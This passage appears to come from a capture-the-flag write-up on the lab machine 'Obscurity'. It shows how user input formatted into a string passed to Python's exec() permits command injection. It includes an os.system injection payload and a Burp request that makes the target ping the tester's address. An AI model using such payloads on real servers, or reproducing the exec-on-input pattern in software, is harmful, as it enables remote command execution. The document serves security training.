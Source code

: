 

I can see my input is added to the `info` string, and then that string
is executed. The intended behavior is to save a string with the file
name in the variable `output`. But what if I use the input to inject
commands. If I request `/index.md'; os.system('echo test');'`, then
`test` is printed:



    >>> path = "/index.md'; os.system('echo test');'"
    >>> exec(info.format(path))
    test



That's because first the `format` happens, resulting in a string:



    >>> info.format(path)
    "output = 'Document: /index.md'; os.system('echo test');''"



Now when `exec` is called on that string, it saves `output`, but also
makes the `os.system` call.

In many Python injections, I'd have to worry getting a reference to the
`os` module, but since it's already imported into this script, I don't
have to worry about that. If I wanted to run processes using
`subprocess` instead of `os`, I'd need to do that.

#### POC

Now to prove this on Obscurity, I'll try to write a payload to test this
exploit. Since I don't think I'll see the results of the run, I'll try
to `ping` myself. I'll use a payload of:



    /';os.system('ping%20-c%201%2010.10.14.19');'



I'll start `tcpdump` to listen for ICMP. Then I'll visit the page root
through Burp, and then find that request and send it to Repeater. There
I'll modify the request to:



    GET /';os.system('ping%20-c%201%2010.10.14.19');' HTTP/1.1
    Host: 10.10.10.168:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache

